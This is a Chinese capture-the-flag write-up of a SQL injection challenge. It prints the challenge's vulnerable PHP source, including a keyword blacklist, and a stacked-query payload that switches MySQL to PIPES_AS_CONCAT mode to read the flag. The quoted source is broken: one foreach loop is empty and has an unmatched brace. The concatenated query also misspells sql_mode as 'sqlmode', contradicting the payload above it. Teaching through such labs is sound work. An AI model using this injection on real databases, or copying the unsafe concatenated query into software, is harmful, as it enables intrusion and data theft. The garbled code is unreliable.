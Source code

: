 该题暴露了源码：

```javascript
<?php
    session_start();

    include_once "config.php";

    $post = array();
    $get = array();
    global $MysqlLink;

    //GetPara();
    $MysqlLink = mysqli_connect("localhost",$datauser,$datapass);
    if(!$MysqlLink){
        die("Mysql Connect Error!");
    }
    $selectDB = mysqli_select_db($MysqlLink,$dataName);
    if(!$selectDB){
        die("Choose Database Error!");
    }

    foreach ($_POST as $k=>$v){
        if(!empty($v)&&is_string($v)){
            $post[$k] = trim(addslashes($v));
        }
    }
    foreach ($_GET as $k=>$v){
        }
    }
    //die();
    ?>

<html>
<head>
</head>

<body>

<a> Give me your flag, I will tell you if the flag is right. </a>
<form action="" method="post">
<input type="text" name="query">
<input type="submit">
</form>
</body>
</html>

<?php

    if(isset($post['query'])){
        $BlackList = "prepare|flag|unhex|xml|drop|create|insert|like|regexp|outfile|readfile|where|from|union|update|delete|if|sleep|extractvalue|updatexml|or|and|&|\"";
        //var_dump(preg_match("/{$BlackList}/is",$post['query']));
        if(preg_match("/{$BlackList}/is",$post['query'])){
            //echo $post['query'];
            die("Nonono.");
        }
        if(strlen($post['query'])>40){
            die("Too long.");
        }
        $sql = "select ".$post['query']."||flag from Flag";
        mysqli_multi_query($MysqlLink,$sql);
        do{
            if($res = mysqli_store_result($MysqlLink)){
                while($row = mysqli_fetch_row($res)){
                    print_r($row);
                }
            }
        }while(@mysqli_next_result($MysqlLink));

    }

    ?>
```



查询语句：

```javascript
   $sql = "select ".$post['query']."||flag from Flag";
```



Oracle 在缺省情况下支持使用 " || "连接字符串 ，

 但是在MySQL中缺省不支持 ，MySQL 缺省使用 CONCAT 系列函数来连接字符串 .

可以通过修改 sql_mode 模式 : PIPES_AS_CONCAT 来实现将 " || "视为 字符串连接符 而非 或 运算符 .

因此这里预期的 Payload 是通过修改 sql_mode 来拿到 Flag ，如下：

```javascript
1;set sql_mode=PIPES_AS_CONCAT;SELECT 1
```



拼接之后变成：

```javascript
select 1;set sqlmode=PIPES_AS_CONCAT;SELECT 1 || flag from Flag
```



sql_mode原理：

https://blog.csdn.net/lixora/article/details/60572357